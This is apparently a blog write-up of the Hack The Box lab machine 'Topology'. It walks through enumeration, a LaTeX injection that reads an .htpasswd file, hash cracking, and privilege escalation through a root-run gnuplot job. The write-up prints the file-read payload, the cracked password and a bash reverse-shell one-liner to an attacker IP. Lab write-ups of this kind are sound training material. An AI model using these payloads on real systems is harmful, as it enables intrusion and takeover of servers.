 ```yaml
---
title: "Hack The Box - Topology [Easy]"
date: 2023-06-30T10:42:27+03:00
draft: false
tags: ["hackthebox"]
---
```


I've started with simple machine enumeration

```bash
$ nmap -sV 10.10.11.217
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Then I went to `topology.htb` to check out the website, noticed the possible users (according to the email that is formatted like `lklein@topology.htb`). I've enumerated possible users:

```
lklein
vdaisley
dabrahams
```

I went on to figure out what is located at http://latex.topology.htb/equation.php which was the only link on the website. There I found out some LaTeX to PNG convertor. I've figured out that there must be some trickery with this so I went my way to research the topic. 

I've found out the following:
- https://0day.work/hacking-with-latex/
- https://salmonsec.com/cheatsheets/exploitation/latex_injection

These two links, helped me to figure out that I had an LFI vulnerability at hand. Upon searching different files such as `/etc/passwd, /proc/self/cmdline, /proc/self/environ` and so on, I've figured out that I must be missing something. I began to explore what other subdomains (because there is `latex.topology.htb` I thought there would be more) were on the webserver using `ffuf`.

```bash
$ ffuf -w $commontxt -u http://topology.htb/ -H "Host: FUZZ.topology.htb" -r
```

Which yielded the following domains:

- `dev`
- `stats`

I've browsed through those and on the stats there were simple plots about the current usage of the system and that's it. But on the `dev` subdomain there was a Basic Auth in place which I then figured out that I can read the `.htpasswd` with the LFI vulnerability in the `latex.topology.htb` input form. 

I've tried a couple of times to read the file, but there were unsuccessful, and I went my way to figure out why and what's going on. 

I honestly didn't know how can I read the file and I turned out to some help, which I then understood that I can use the `LaTeX/Source Code Listings` which also can read a file with `\lstinputlisting{/var/www/dev/.htpasswd}`, however the website just resulted in no image (possible error) using just this command. 

Here comes this post to the rescue https://tex.stackexchange.com/questions/410863/what-are-the-differences-between-and

Since the website is about math, we can use the `inline math delimiters` that are `$ and $` which can turn my payload from `\lstinputlisting{/var/www/dev/.htpasswd}` to `$\lstinputlisting{/var/www/dev/.htpasswd}$` which resulted into getting the basic auth hash.

```
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTZ0
```

Using `hashcat` we can extract the password

```
$ hashcat -m 1600 crack.txt /usr/share/wordlists/rockyou.txt
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTZ0:goDoItOnYourOwn
```

With that, I tried the users that I've enumerated earlier and the user `vdaisley` worked out, so I went to log in with SSH and got the user flag.


# Root

The root was pretty easy, first we can see which directories are writable:

```
$ find / -type d -writable 2>/dev/null
...
/opt/gnuplot
...
```

This directory looked suspicious, I've fired up `pspy` to checkout what is going on and I got this:

![rwojak](/htb/htb-topology-pspyrun.png)

So we are finding `*.plt` files in this directory, and then we are executing `gnuplot` as root. Using this [article,](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/#command-execution) I've crafted a `test.plt` file with the contents of:

```bash
vdaisley@topology:/opt/gnuplot$ cat ~/test.plt 
system "bash -c 'bash -i >& /dev/tcp/10.10.16.xx/4444 0>&1'"
```

I've copied the file to the `/opt/gnuplot` directory and I've waited to get a remote connection which I got in about a minute. With that I rooted the machine.

